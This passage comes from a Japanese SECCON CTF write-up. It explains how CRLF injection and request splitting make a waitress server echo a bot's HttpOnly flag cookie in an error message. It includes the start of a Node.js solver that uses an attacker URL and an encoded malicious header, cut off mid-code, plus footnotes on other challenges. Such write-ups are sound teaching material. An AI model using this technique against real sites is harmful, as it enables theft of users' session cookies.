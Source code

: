 - https://github.com/Pylons/waitress/blob/v2.1.2/src/waitress/parser.py#L436-L437

にて、HTTPリクエストの1行目が不正な場合に、そのHTTPメソッドを含むエラー文を載せてレスポンスする挙動になっていることがわかります。
これを利用して、つまり、cookieの値部分がHTTPメソッドの位置になるようにリクエストを構成することによって、そのレスポンスのbodyからcookieの中身を取得することを考えます。

これはCRLF injectionで1つのリクエストを2つのリクエストに分割（splitting）すれば可能です。HTTPメソッドとなる場所は`Content-Length`でうまく調整すれば良いです。

また、該当のエラー文を出力するには、リクエストの1行目を
```python
# From: https://github.com/Pylons/waitress/blob/v2.1.2/src/waitress/parser.py#L409-L413
first_line_re = re.compile(
    b"([^ ]+) "
    b"((?:[^ :?#]+://[^ ?#/]*(?:[0-9]{1,5})?)?[^ ]+)"
    b"(( HTTP/([0-9.]+))$|$)"
)
```
にマッチさせる必要があります。これは、
```javascript
document.cookie = '/?a=b HTTP/1.1'
```
のように適当なcookieを付与することで1行目が
```
flag=SECCON{real_flag}; /?a=b HTTP/1.1
```
となり、正規表現にマッチするようになります。

### Solver

以上のステップを組み合わせると、botのHttpOnly cookieの中身を盗むことが可能です:

```javascript
const fastify = require("fastify")();

const fail = (message) => {
  console.error(message);
  return process.exit(1);
};

const SECCON_BASE_URL = process.env.SECCON_BASE_URL ?? fail("No SECCON_BASE_URL");
const ATTACK_BASE_URL = process.env.ATTACK_BASE_URL ?? fail("No ATTACK_BASE_URL");

const LISTEN_PORT = process.env.PORT ?? "8080";

const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

const exploit = async () => {
  const encode = (bs) => {
    // ref. https://www.rfc-editor.org/rfc/rfc2047.html#section-2
    charset = "iso-8859-1";
    encoding = "q";
    encoded_text = Array.from(Buffer.from(bs))
      .map((x) => "=" + Buffer.from([x]).toString("hex"))
      .join("");
    return `=?${charset}?${encoding}?${encoded_text}?=`;
  };

  const contentLength =
    "Accept: */*\r\nReferer: http://nginx:3000/\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCookie: "
      .length;
  const evilHeader = encode(`bbb\r\nContent-Length: ${contentLength}\r\n`);

  const evilJs = `
    const main = async () => {
      document.cookie = '/?a=b HTTP/1.1';

```

[^top-1]: 作問ミスで、多くの人に非想定で解かれてしまい想定難易度より易化 :cry:
[^skipinx-1]: qsに限らず、DoS対策の文脈で、リクエストが巨大だった場合に途中以降を無視したりリクエスト自体を拒否したりする仕組みを取り入れているライブラリやフレームワークはしばしばあります。
[^easylfi-1]: `man curl`にもURL globbingの説明が書いてあります。
[^denobox-1]: Denoでは`__proto__`が公開されていないため、`constructor.prototype`経由で汚染する必要があります。
[^denobox-2]: もしこの制限下でprototype pollutionだけでRCEに繋げられる方法を見つけたら是非教えてください。
[^spanote-1]: 実際には、botの実装に使われているpuppeteerではデフォルトオプションでbfcacheが無効にされているので、フラグを取得するためにはこのステップは不要です（[参考](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175)）。
[^noiseccon-1]: パーリンノイズについて詳しく知りたい方には[Unity Graphics Programming](https://github.com/IndieVisualLab/UnityGraphicsProgrammingSeries) vol.2 第5章がおすすめです。
[^noiseccon-2]: すみません、ここで解説が力尽きました。余裕があったら書き足します。